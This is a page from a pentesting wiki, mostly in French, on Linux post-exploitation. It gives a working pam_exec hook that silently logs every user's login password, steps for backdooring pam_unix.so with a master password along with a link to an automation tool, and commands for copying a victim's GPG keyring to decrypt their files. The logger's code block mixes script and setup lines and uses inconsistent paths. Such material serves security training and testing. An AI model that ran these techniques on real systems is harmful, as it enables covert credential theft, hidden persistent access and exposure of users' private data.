 # Post-exploitation sous Linux

{{#include ../../banners/hacktricks-training.md}}

## Interception des mots de passe de connexion avec PAM

Configurons un module PAM pour enregistrer chaque mot de passe que chaque utilisateur utilise pour se connecter. Si vous ne savez pas ce qu'est PAM, consultez :


{{#ref}}
pam-pluggable-authentication-modules.md
{{#endref}}

**Pour plus de détails, consultez le [original post](https://embracethered.com/blog/posts/2022/post-exploit-pam-ssh-password-grabbing/)**. Ceci n'est qu'un résumé :

**Aperçu de la technique :**
Pluggable Authentication Modules (PAM) offrent de la flexibilité dans la gestion de l'authentification sur les systèmes Unix. Ils peuvent renforcer la sécurité en personnalisant les processus de connexion, mais présentent aussi des risques s'ils sont mal utilisés. Ce résumé décrit une technique pour capturer les identifiants de connexion en utilisant PAM, ainsi que des stratégies d'atténuation.

**Capture des identifiants :**

- Un script bash nommé `toomanysecrets.sh` est créé pour enregistrer les tentatives de connexion, capturant la date, le nom d'utilisateur (`$PAM_USER`), le mot de passe (via stdin) et l'IP de l'hôte distant (`$PAM_RHOST`) dans `/var/log/toomanysecrets.log`.
- Le script est rendu exécutable et intégré dans la configuration PAM (`common-auth`) en utilisant le module `pam_exec.so` avec des options pour s'exécuter silencieusement et exposer le jeton d'authentification au script.
- Cette approche montre comment un hôte Linux compromis peut être exploité pour consigner discrètement des identifiants.
```bash
#!/bin/sh
echo " $(date) $PAM_USER, $(cat -), From: $PAM_RHOST" >> /var/log/toomanysecrets.log
sudo touch /var/log/toomanysecrets.sh
sudo chmod 770 /var/log/toomanysecrets.sh
sudo nano /etc/pam.d/common-auth
# Add: auth optional pam_exec.so quiet expose_authtok /usr/local/bin/toomanysecrets.sh
sudo chmod 700 /usr/local/bin/toomanysecrets.sh
```
### Backdooring PAM

**Pour plus de détails, consultez le [original post](https://infosecwriteups.com/creating-a-backdoor-in-pam-in-5-line-of-code-e23e99579cd9)**. Ceci n'est qu'un résumé :

Le Pluggable Authentication Module (PAM) est un système utilisé sous Linux pour l'authentification des utilisateurs. Il fonctionne sur trois concepts principaux : **username**, **password**, et **service**. Les fichiers de configuration pour chaque service se trouvent dans le répertoire `/etc/pam.d/`, où des shared libraries gèrent l'authentification.

**Objectif** : Modifier PAM pour permettre l'authentification avec un mot de passe spécifique, contournant le mot de passe réel de l'utilisateur. Cela se concentre particulièrement sur la librairie partagée `pam_unix.so` utilisée par le fichier `common-auth`, qui est incluse par presque tous les services pour la vérification du mot de passe.

### Steps for Modifying `pam_unix.so`:

1. **Locate the Authentication Directive** in the `common-auth` file:
- The line responsible for checking a user's password calls `pam_unix.so`.
2. **Modify Source Code**:
- Add a conditional statement in the `pam_unix_auth.c` source file that grants access if a predefined password is used, otherwise, it proceeds with the usual authentication process.
3. **Recompile and Replace** the modified `pam_unix.so` library in the appropriate directory.
4. **Testing**:
- Access is granted across various services (login, ssh, sudo, su, screensaver) with the predefined password, while normal authentication processes remain unaffected.

> [!TIP]
> You can automate this process with [https://github.com/zephrax/linux-pam-backdoor](https://github.com/zephrax/linux-pam-backdoor)

## Decrypting GPG loot via homedir relocation

Si vous trouvez un fichier chiffré `.gpg` et le dossier `~/.gnupg` d’un utilisateur (pubring, private-keys, trustdb) mais que vous ne pouvez pas déchiffrer à cause des permissions/verrous du GnuPG homedir, copiez le keyring dans un emplacement inscriptible et utilisez-le comme votre GPG home.

Typical errors you’ll see without this: "unsafe ownership on homedir", "failed to create temporary file", or "decryption failed: No secret key" (because GPG can’t read/write the original homedir).

Workflow:
```bash
# 1) Stage a writable homedir and copy the victim's keyring
mkdir -p /dev/shm/fakehome/.gnupg
cp -r /home/victim/.gnupg/* /dev/shm/fakehome/.gnupg/
# 2) Ensure ownership & perms are sane for gnupg
chown -R $(id -u):$(id -g) /dev/shm/fakehome/.gnupg
chmod 700 /dev/shm/fakehome/.gnupg
# 3) Decrypt using the relocated homedir (either flag works)
GNUPGHOME=/dev/shm/fakehome/.gnupg gpg -d /home/victim/backup/secrets.gpg
# or
gpg --homedir /dev/shm/fakehome/.gnupg -d /home/victim/backup/secrets.gpg
```
Si le matériel de clé secrète est présent dans `private-keys-v1.d`, GPG déverrouillera et déchiffrera sans demander de passphrase (ou il demandera une passphrase si la clé est protégée).

## Références

- [0xdf – HTB Environment (GPG homedir relocation to decrypt loot)](https://0xdf.gitlab.io/2025/09/06/htb-environment.html)
- [GnuPG Manual – Home directory and GNUPGHOME](https://www.gnupg.org/documentation/manuals/gnupg/GPG-Configuration-Options.html#index-homedir)

{{#include ../../banners/hacktricks-training.md}}
